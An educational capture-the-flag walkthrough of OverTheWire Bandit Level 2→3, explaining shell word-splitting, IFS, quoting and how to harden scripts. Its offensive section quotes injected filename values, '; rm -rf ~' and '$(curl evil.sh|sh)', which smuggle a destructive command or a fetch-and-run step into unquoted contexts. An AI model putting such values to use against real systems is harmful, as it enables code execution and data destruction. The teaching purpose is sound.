

# OverTheWire Bandit Level 2 → Level 3

## Introduction

Last level, a single dash broke your command. This level, it is spaces. The password lives in a file literally named `spaces in this filename`, and the moment you type `cat spaces in this filename`, the shell chops that into **four separate arguments** and `cat` complains that none of them exist. Nothing is wrong with the file — the shell did exactly what it always does: it split your line on whitespace before `cat` ever saw it.

The lesson is **word-splitting** and the tool that controls it: **quoting**. This is one of the most fundamental shell skills there is, and getting it wrong is the root cause of a startling number of real bugs — from broken backup scripts to full command-injection vulnerabilities.

## Official Challenge Objective

> **The password for the next level is stored in a file called `spaces in this filename` located in the home directory.**

**In plain English:** the file's name contains spaces. To the shell, a space normally means "this is where one argument ends and the next begins," so you have to *quote* or *escape* the name to make the shell treat the whole thing as one filename.

## Skills Covered

- Shell word-splitting on whitespace
- Quoting (double `"..."` and single `'...'`) and backslash-escaping
- Tab-completion as a safe way to handle awkward names
- Globbing (`*`) as an alternative
- The `IFS` (Internal Field Separator) concept

## My Approach

`ls` confirmed the file, name and all: `spaces in this filename`. I knew immediately that typing it raw would fail, because the shell would see four words. The cleanest, most readable fix is to wrap the whole name in double quotes so the shell passes it to `cat` as a single argument. I reached for `cat "spaces in this filename"` and read the password in one go.

## Step-by-Step Walkthrough

### Command

```bash
ls
```

### Explanation

`ls` lists the home directory and shows the file `spaces in this filename`. Note how it appears as one entry even though it contains spaces — the filesystem has no problem with spaces in names; only the *shell's* parsing does.

### Why It Matters

Seeing the exact name — including how many spaces and where — is essential before you can quote it correctly.

---

### Command

```bash
cat "spaces in this filename"
```

### Explanation

The double quotes tell the shell "treat everything between me as a single word." Word-splitting is suppressed inside quotes, so `cat` receives exactly one argument — the full filename — and prints the bandit3 password:

```
[REDACTED]
```

> [!TIP]
> Several equivalent solutions, all worth knowing:
> - **Single quotes:** `cat 'spaces in this filename'`
> - **Backslash-escaping** each space: `cat spaces\ in\ this\ filename`
> - **Globbing:** `cat spaces*` or `cat ./spaces*` (the `*` matches the rest of the name without you typing the spaces at all)
> - **Tab-completion:** type `cat sp` then press `Tab` — the shell auto-escapes the spaces for you.

### Why It Matters

Quoting is the single most important habit for writing correct, secure shell. Almost every "it worked on my machine but broke in production" shell bug traces back to an unquoted variable that contained a space, a newline, or a glob character.

## Deep Dive: Cyber Security Concept

**Word-splitting, `IFS`, and quoting.**

After the shell does variable and command expansion, it performs **word-splitting**: it breaks the result into words wherever it finds any character in `$IFS` — the *Internal Field Separator*, which defaults to space, tab, and newline. That is why `spaces in this filename` becomes four arguments.

Quoting changes this behavior:

- **Double quotes (`"..."`)** suppress word-splitting and globbing but still allow variable/command expansion (`$VAR`, `$(cmd)`).
- **Single quotes (`'...'`)** suppress *everything* — the contents are taken 100% literally.
- **Backslash (`\ `)** escapes a single following character.

The security-critical corollary is **"always quote your variable expansions."** An unquoted `$file` re-enters word-splitting *and* globbing every time it is used. If an attacker controls that variable, the consequences range from a script silently operating on the wrong files to outright command injection.



> [!IMPORTANT]
> The filesystem allows almost any byte in a filename — spaces, newlines, control characters, even glob metacharacters. Robust scripts must assume hostile filenames and quote accordingly.

## Offensive Security Perspective

Unquoted variables are a goldmine for attackers:

- **Command injection via filenames/inputs:** a script that runs `cp $userfile /dest` with `$userfile` unquoted can be abused when the value contains spaces and shell metacharacters, splintering into extra arguments or even extra commands.
- **Mass-assignment of arguments:** an attacker who can name a file `; rm -rf ~` or `$(curl evil.sh|sh)` and get it into an unquoted, eval-style context achieves code execution.
- **CTF/file-handling tricks:** filenames containing spaces, newlines, or leading dashes are a recurring obstacle/weapon — the same instinct from Level 1 → 2 generalizes here.

The offensive takeaway: whenever you see a shell script handling user-controlled paths *without quotes*, you have likely found a vulnerability.

## Defensive Perspective

- **Quote every expansion.** `"$var"`, `"$@"` (never bare `$@` or `$*`), `"$(cmd)"`. ShellCheck (`shellcheck script.sh`) flags unquoted expansions automatically — run it in CI.
- **Set a safe `IFS`** in security-sensitive scripts, or avoid relying on word-splitting altogether by using arrays: `files=(...); cp "${files[@]}" /dest`.
- **Prefer `find ... -print0 | xargs -0`** when iterating over filenames so that spaces and newlines never break the pipeline.
- **Detection / logging:** in `execve` audit records or Sysmon command lines, an argument count or content that does not match the expected pattern (e.g. a single "filename" field that exploded into many tokens) can indicate filename-based injection.
- **Hardening:** validate/normalize uploaded or user-supplied filenames; reject or sanitize whitespace and metacharacters at the boundary.

## Common Beginner Mistakes

- Typing `cat spaces in this filename` and getting four "No such file or directory" errors — then doubting the file exists.
- Quoting only part of the name (`cat "spaces in this" filename`), which still splits.
- Using single quotes when they need variable expansion, or double quotes when they want everything literal — knowing which is which matters.
- Forgetting that tab-completion will do the escaping *for* you, the safest option of all.

## Key Takeaways

- The shell splits commands into words on whitespace (`$IFS`) before the program runs.
- Quote with `"..."` (allows `$` expansion) or `'...'` (fully literal), or escape spaces with `\`.
- Globbing (`spaces*`) and tab-completion are convenient alternatives.
- **Always quote variable expansions** — the single most important rule for safe shell.
- Filenames can contain almost anything; write code that assumes the worst.

## How This Helps Build Cyber Security Expertise

- **Secure shell scripting:** quoting discipline is what separates a robust automation script from a command-injection liability.
- **AppSec & code review:** unquoted shell expansions are a recurring finding in audits of CI/CD pipelines, install scripts, and wrapper utilities.
- **Detection engineering:** understanding how command lines tokenize helps you write accurate parsing rules for EDR/SIEM data.
- **Exploit crafting:** filename- and IFS-based tricks are real techniques for breaking out of constrained execution contexts.

## Additional Reading

- [`man bash`](https://man7.org/linux/man-pages/man1/bash.1.html) — sections "Quoting" and "Word Splitting"
- [POSIX Shell — Field Splitting](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_06_05)
- [ShellCheck — static analysis for shell scripts](https://www.shellcheck.net/)
- [BashFAQ #001 — handling filenames safely](https://mywiki.wooledge.org/BashFAQ/001)

---

*Next up: [Level 3 → 4](./04-bandit-level-3-4.md) — a hidden dotfile teaches you that `ls` lies by omission and that the dot is a favorite hiding spot.*


---

## Connect with the Author

Written by **Himangshu Pan** — offensive security researcher.

- **GitHub:** [@0xSh3ru](https://github.com/0xSh3ru)
- **LinkedIn:** [in/0xsh3ru](https://www.linkedin.com/in/0xsh3ru/)

*If this walkthrough helped, follow along on GitHub and connect on LinkedIn — questions and corrections are always welcome.*
